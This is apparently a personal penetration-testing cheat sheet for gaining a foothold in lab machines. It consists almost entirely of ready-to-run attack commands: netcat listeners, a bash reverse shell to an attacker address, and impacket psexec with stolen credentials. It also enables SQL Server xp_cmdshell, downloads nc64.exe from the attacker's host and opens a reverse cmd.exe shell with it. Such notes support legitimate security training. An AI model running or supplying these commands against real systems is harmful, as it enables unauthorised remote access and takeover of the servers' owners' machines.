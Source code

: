 Foothold
========

Listeners
---------

Netcat
```
sudo nc -lvnp $LPORT
```

Netcat on a port less likely to be blocked by egress firewalls
```
sudo nc -lvnp 443
```

Reverse Shells
--------------

[Various Reverse Shell Cheatsheets (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```
bash -c "bash -i >& /dev/tcp/10.10.14.62/443 0>&1"
```

use python to improve the quality of terminal experience
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
or 
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Protocol attacks with [impacket](https://github.com/SecureAuthCorp/impacke)
```
impacket-psexec "./$WINUSER:$WINPASS"@$RIP
```

SQL Server
----------

check if role is admin
```
SELECT is_srvrolemember('sysadmin');
```

Enable command shell
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure; - Enabling the sp_configure as stated in the above error message EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

Run a command
```
EXEC xp_cmdshell 'net user';
```
	
Download and run nc64.exe
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[[$LIP]]:8080/nc64.exe -outfile nc64.exe"
```
	
Obtain reverse shell
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe [[$LIP]] [[$LPORT]]"
```

Estabish SSH tunnel (local port: `8888`, remote host: `localhost`, remote port: `80`)
```
ssh -L 8888:localhost:80 -i ~/.ssh/id_trash_ed25519 $RUSER@$RIP
```